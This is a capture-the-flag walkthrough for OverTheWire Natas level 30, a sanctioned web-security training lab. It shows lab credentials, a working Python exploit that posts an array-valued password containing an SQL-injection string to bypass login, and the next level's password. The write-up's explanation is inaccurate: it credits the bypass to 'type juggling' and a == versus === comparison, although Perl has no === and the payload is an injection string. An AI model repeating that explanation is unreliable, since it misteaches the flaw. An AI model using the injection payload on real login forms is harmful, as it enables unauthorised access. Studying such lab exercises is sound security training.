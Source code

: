 # Natas CTF Solutions  

## Natas Level 30  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Bypass authentication using **type juggling** in Perl.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas30.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas30`  
- **Password:** Use the password from Natas Level 29:  
```
WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH
```  

![Home_Page](https://github.com/user-attachments/assets/ec4438a1-c334-423f-bc01-d779ec24d431)

---

### **Step 3: Analyze the Challenge**  
1. Right-click is disabled (to prevent viewing source).  
2. Open the URL directly in a new tab to bypass the right-click block.  
3. The authentication process checks both **username** and **password** values.  
4. The goal is to exploit **Perl's type juggling** vulnerability, where:  
   - A string `'0'` or an empty string `''` can be evaluated as `false` when treated as a boolean or numeric value.  
   - An array with multiple elements will also evaluate to `true`.  

![Source_Code](https://github.com/user-attachments/assets/c37319c0-84d2-4877-b586-7bb9b4af8d36)

---

### **Step 4: Create Type Juggling Payload**  
- Exploit type juggling by sending a password value as an **array**:  
   - If the server checks using `==`, it will compare the array to a string and evaluate it as `true`.  

---

### **Step 5: Exploit Code**  
Here’s the Python code to execute the attack:  

```python
import requests

url = "http://natas30.natas.labs.overthewire.org/index.pl"

# Start session and authenticate
s = requests.Session()
s.auth = ('natas30', 'WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH')

# Exploit type juggling by passing an array as the password
data = {
    "username": "natas31",
    "password": ["'' or 1", 2]  # Exploit type juggling vulnerability
}

# Send the POST request
r = s.post(url, data=data)

# Print response
print(r.text)
```

---

### **Step 6: Result**  
The output reveals the password for the next level:  
```  
The password for natas31 is: m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y  
```

![Password](https://github.com/user-attachments/assets/5054d1d6-4b2d-4ff0-908e-fa05cb08d6e0)

---

### **✅ Password for Natas Level 31**  
```
m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y
```

---

## 💡 **Lessons Learned**  
✔️ **Type Juggling:** Perl, PHP, and other loosely typed languages may treat strings, arrays, and booleans inconsistently.  
✔️ **Loose Comparison (`==`) vs Strict Comparison (`===`):**  
- `==` compares values after type conversion → vulnerable to type juggling.  
- `===` compares values **and** types → secure comparison.  
✔️ **Bypassing Input Validation:** Exploiting type confusion can bypass authentication or input validation.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Source Code | ![Source_Code](https://github.com/user-attachments/assets/c37319c0-84d2-4877-b586-7bb9b4af8d36) |  
| Step 6 – Found Password | ![Password](https://github.com/user-attachments/assets/5054d1d6-4b2d-4ff0-908e-fa05cb08d6e0) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 31**:  
👉 [http://natas31.natas.labs.overthewire.org](http://natas31.natas.labs.overthewire.org)  

---
